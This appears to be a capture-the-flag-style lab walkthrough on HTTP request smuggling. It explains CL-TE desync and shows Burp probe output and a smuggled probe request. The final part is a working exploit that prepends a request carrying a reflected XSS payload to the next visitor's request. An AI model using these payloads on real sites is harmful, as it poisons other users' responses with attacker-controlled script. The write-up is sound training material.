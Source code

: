 ### HTTP request smuggling
#### Basic information
+ HTTP request smuggling is a technique for interfering with the way a web site processes sequences of HTTP requests that are received from one or more users.
Most HTTP request smuggling vulnerabilities arise because the HTTP specification provides two different ways to specify where a request ends: the <b>Content-Length header (CL) and the Transfer-Encoding header(TE)</b>. 
The Transfer-Encoding header can be used to specify that the message body uses chunked encoding. This means that the message body contains one or more chunks of data.<br>
Since the HTTP specification provides two different methods for specifying the length of HTTP messages, it is possible for a single message to use both methods at once, such that they conflict with each other. The HTTP specification attempts to prevent this problem by stating that if both the Content-Length and Transfer-Encoding headers are present, then the Content-Length header should be ignored.<br>
If the front-end and back-end servers behave differently in relation to the (possibly obfuscated) <b>Transfer-Encoding header</b>, then they might disagree about the boundaries between successive requests, leading to request smuggling vulnerabilities. The following scenarios are possible:
1. CL-TE: the front-end server uses the Content-Length header and the back-end server uses the Transfer-Encoding header
1. TE-CL: the front-end server uses the Transfer-Encoding header and the back-end server uses the Content-Length header
1. TE-TE: the front-end and back-end servers both support the Transfer-Encoding header, but one of the servers can be induced not to process it by obfuscating the header in some way
#### Lab enviroment
In the lab the front-end server doesn't support chunked encoding. The application is also vulnerable to reflected XSS via the User-Agent header.
To solve the lab, smuggle a request to the back-end server that causes the next user's request to receive a response containing an XSS exploit that executes <b>alert(1)</b><br><i>Note: you must have HTTP Request Smuggler extention installed in Burp</i>
#### Steps
<i>Note 2: my lab ID will change during the following steps, so you could find some discrepancies between images and the source code</i>
First we need to verify if the application is vulnerable to HTTP request smuggling (AKA desync attack), so lets proceed to analyze the request for a comment subsmission. 
First verify that the HTPP request smuggler extension is installed: click to Extension (1), then verify that the Smuggler is listed (2), eventually go BApp Store (3) and proceed to the installation. I suggest to set the Output (4) to Save to a file
<br>![img](./img/64.png)<br>
In the output we will get the report with the results of the externsion's execution.

Now lets proceed to use the HTTP Request Smuggler, to do that right-click into the Request body and choose Smuggle probe (click Ok in the configuration windows that appears, if you don't see the OK button just hit enter):
<br>![img](./img/65.png)<br>
Wait a couple of minute (or tail the file) to get the result that indicates that the application could be prone to CL-TE desyn vulnerability:
```
Updating active thread pool size to 8
Loop 0
Queued 1 attacks from 1 requests in 0 seconds
Unexpected report with response
Found issue: Possible HTTP Request Smuggling: CL.TE multiCase (delayed response)
Target: https://0a57004604fdbb11c0900dc7003c00ec.web-security-academy.net
Burp issued a request, and got a response. Burp then issued the same request, but with a shorter Content-Length, and got a timeout.<br/> 
This suggests that the front-end system is using the Content-Length header, and the backend is using the Transfer-Encoding: chunked header. 
You should be able to manually verify this using the Repeater, provided you uncheck the 'Update Content-Length' setting on the top menu. 
<br/>As such, it may be vulnerable to HTTP Desync attacks, aka Request Smuggling. 
<br/>To attempt an actual Desync attack, right click on the attached request and choose 'Desync attack'. 
Please note that this is not risk-free - other genuine visitors to the site may be affected.<br/>
...
```
As suggested we should be able to manually test the vulnerability using a payload provided in the report. Scrolling the result we can choose the following:
```
...
POST /post/comment HTTP/1.1
Host: 0a5a006c0402c03dc28a0626008b0066.web-security-academy.net
Cookie: session=mPoMTxbv2et0e1oSHkM0znnd5e8HAxOZ
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 353
Origin: https://0a5a006c0402c03dc28a0626008b0066.web-security-academy.net
Referer: https://0a5a006c0402c03dc28a0626008b0066.web-security-academy.net/post?postId=4
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close
tRANSFER-ENCODING: chunked

d2
csrf=mehaXubNbgLch7KliIBrrnEJX8LHness&userAgent=Mozilla%2F5.0+%28Windows+NT+10.0%3B+Win64%3B+x64%3B+rv%3A108.0%29+Gecko%2F20100101+Firefox%2F108.0&postId=4&comment=ciao&name=zinz&email=zinz%40libero.it&website=
0

GET /?x=5u0ddwptlhzwzk0kkdjae3bt9kfc31/0a57004604fdbb11c0900dc7003c00ec.web-security-academy.net HTTP/1.1
Host: 52.16.21.24
Foo: x
...
```
Copy and paste the request into Reapeter, morover I modified the GET as follows (we have then to adjust the Content-Length in accords as shown in the next image):
```
GET /invalid_URL HTTP/1.1
Foo: x
```
Then the above two lines of the request should be treated by the back-end server as belonging to the next valid request that is received. Since this request contains an invalid URL, the server will respond with status code 404, indicating that the attack request did indeed interfere with it. Submitting the modified request we can notice that the server respond correctly with a redirect (1), but following the redirection (2), since our GET instruction was prepended to the subsequent request, will cause a 404 error trying to reach the invalid url
<br>![img](./img/66.png)<br>
Following the redirect:
<br>![img](./img/67.png)<br>

Now that we have found the desync vulnerability we need to find the reflected vulnerability. Inspecting the creation of new comment request we can see that the user-agent header is passes as parameter:
<br>![img](./img/68.png)<br>
Moreover inspecting the post's comment page we can see that the value is reflected into a hidden input field
<br>![img](./img/69.png)<br>
Let's try to inject the user-agent header:
<br>![img](./img/70.png)<br>
So our JS payload is reflected, sending the request to the browser (right click on the request body, then 1, 2), copy the provided link into your browser and you get the alert pop-up into the response (eventually you could just use Show response in browser, 3)
<br>![img](./img/71.png)<br>
Finally we can combine the two vulnerability to solve the lab using the following exploit:
```
POST / HTTP/1.1
Host: 0a6200a0045c84b0c1db9e7e00630001.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 74
Transfer-Encoding: chunked

0

GET /post?postId=1 HTTP/1.1
User-Agent: "><script>alert(1);</script>
```
In the above POST request the front-end  will pass the  GET as body to the back-end, that understands the transfer-encoding, will treat it as belonging (prepending) to the next request, for istance. Now, after having submitted the exploit, if you visit the post ID 5 you will see the pop-up alert appearing, before to land to the post ID 5 page, since the server will parse the following request:
```
GET /post?postId=1 HTTP/1.1
User-Agent: "><script>alert(1);</script>GET /post?postId=5 HTTP/1.1
Host: 0a6200a0045c84b0c1db9e7e00630001.web-security-academy.net
Cookie: session=Wq6CtAqrwzJDZbfX6NZM4Ncn8ZhyCWK1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:108.0) Gecko/20100101 Firefox/108.0
...
```
Submit the exploit a couple of time and you will see that the Lab is solved



#### Reference
+ https://portswigger.net/web-security/request-smuggling
+ https://portswigger.net/web-security/request-smuggling/finding
+ https://portswigger.net/web-security/request-smuggling/exploiting

